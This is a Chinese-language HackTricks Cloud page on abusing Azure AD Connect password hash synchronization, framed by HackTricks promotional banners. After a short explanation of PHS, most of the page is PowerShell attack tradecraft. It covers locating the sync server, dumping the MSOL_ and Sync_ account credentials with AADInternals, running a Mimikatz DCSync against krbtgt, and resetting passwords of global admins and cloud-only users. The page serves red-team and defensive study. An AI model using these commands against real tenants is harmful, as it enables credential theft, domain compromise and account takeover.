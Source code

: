 # Az - PHS - 密码哈希同步

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[NFT收藏品](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **密码哈希同步** 是实现混合身份的一种登录方法之一。 **Azure AD Connect** 将来自本地活动目录实例的用户密码的哈希同步到基于云的Azure AD实例中。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这是公司用来将本地AD与Azure AD同步的**最常用方法**。

所有**用户**和**密码哈希的哈希**都从本地同步到Azure AD。但是，**明文密码**或**原始哈希**不会发送到Azure AD。\
此外，**内置**安全组（如域管理员...）不会被**同步**到Azure AD。

哈希同步**每2分钟**发生一次。但是，默认情况下，Azure AD中**不会同步**密码过期和帐户过期。因此，一个**本地密码已过期**（未更改）的用户可以继续使用旧密码访问Azure资源。

当本地用户想要访问Azure资源时，**身份验证在Azure AD上**进行。

**PHS** 对于诸如**身份保护**和AAD域服务等功能是必需的。

## 枢纽

当配置PHS时，一些**特权帐户**会自动**创建**：

* 在本地AD中自动创建帐户**`MSOL_<installationID>`**。此帐户被赋予**目录同步帐户**角色（请参阅[文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地AD中具有**复制（DCSync）权限**。
* 在Azure AD中创建一个帐户**`Sync_<name of on-prem ADConnect Server>_installationID`**。此帐户可以在Azure AD中**重置任何用户**（同步或仅云）的密码。

这两个先前特权帐户的密码**存储在安装Azure AD Connect的服务器上的SQL服务器**中。管理员可以以明文形式提取这些特权用户的密码。\
数据库位于`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`中。

可以从其中一个表中提取配置，其中一个表是加密的：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**加密配置**使用**DPAPI**加密，其中包含本地AD中**`MSOL_*`用户的密码**和AzureAD中**Sync\_\***的密码。因此，一旦这些受损，就可以提升权限到AD和AzureAD。

您可以在[此演讲中找到关于这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找**Azure AD连接服务器**

如果**安装了Azure AD连接的服务器**加入了域（文档中推荐），可以使用以下方法找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### 滥用 MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您也可以使用[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

通过入侵 **`Sync_*`** 账户，可以重置任何用户的密码（包括全局管理员）。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
也有可能仅修改云用户的密码（即使这是意外的）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
也可以转储该用户的密码。

{% hint style="danger" %}
另一个选项是为服务主体分配特权权限，**Sync**用户有权限执行此操作，然后以此方式访问该服务主体进行权限提升。
{% endhint %}

### 无缝SSO

可以使用PHS进行无缝SSO，这可能会导致其他滥用。在以下位置检查：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

